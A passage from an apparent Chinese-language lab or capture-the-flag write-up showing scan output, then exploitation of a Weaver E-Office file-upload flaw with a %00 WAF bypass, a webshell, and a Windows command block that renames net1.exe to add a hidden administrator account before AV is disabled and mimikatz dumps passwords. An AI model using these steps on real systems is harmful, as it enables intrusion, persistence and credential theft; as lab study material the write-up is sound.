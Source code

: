 ```
[*]192.168.200.30
   [->]OA
   [->]192.168.200.30
[*] WebTitle: http://192.168.200.10:8060 code:404 len:555    title:404 Not Found
[*] WebTitle: http://192.168.200.30:8082 code:302 len:956    title:None 跳转url: http://192.168.200.30:8082/login.php
[*] WebTitle: http://192.168.200.20:8090 code:302 len:0      title:None 跳转url: http://192.168.200.20:8090/login.action?os_destination=%2Findex.action&permissionViolation=true
[*] WebTitle: http://192.168.200.30:8082/login.php code:200 len:23322  title:登录
[*] WebTitle: http://192.168.200.20:8090/login.action?os_destination=%2Findex.action&permissionViolation=true code:200 len:33279  title:登录 - Confluence
[+] InfoScan:http://192.168.200.20:8090/login.action?os_destination=%2Findex.action&permissionViolation=true [ATLASSIAN-Confluence] 
[+] http://192.168.200.30:8082//fck/editor/dialog/fck_spellerpages/spellerpages/server-scripts/spellchecker.php poc-yaml-fckeditor-info [{path /fck/editor/dialog/fck_spellerpages/spellerpages/server-scripts/spellchecker.php}]
```

`192.168.200.30`有OA先打OA

访问后是 泛微OA 按照 [泛微OA E-Office UploadFile.php 任意文件上传漏洞 CNVD-2021-49104](F:\漏洞库\PeiQi-WIKI-Book\docs\wiki\oa\泛微OA\泛微OA E-Office UploadFile.php 任意文件上传漏洞 CNVD-2021-49104.md) 来打

后台有安全狗，会检测filename，通过%00截取绕过

成功获取Webshell

![image-20231020130502956](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231020130502956.png)

因为后台有狗，蚁的编码器要多测试几个，测试发现chr16可以成功连接

![image-20231020130623235](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231020130623235.png)

### flag3

获取flag

![image-20231020130914310](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231020130914310.png)

net无法创建用户

通过net1来绕过

```bash
copy c:\windows\system32\net1.exe C:\ProgramData\net1.txt
cd C:\ProgramData\
net1.txt user Ki1ro 1qaz!QAZ /add
net1.txt localgroup Administrators Ki1ro /add
```

rdp登录，关闭火绒

传入猕猴桃，尝试能不能获取内存内的密码

得到Administrator的密码
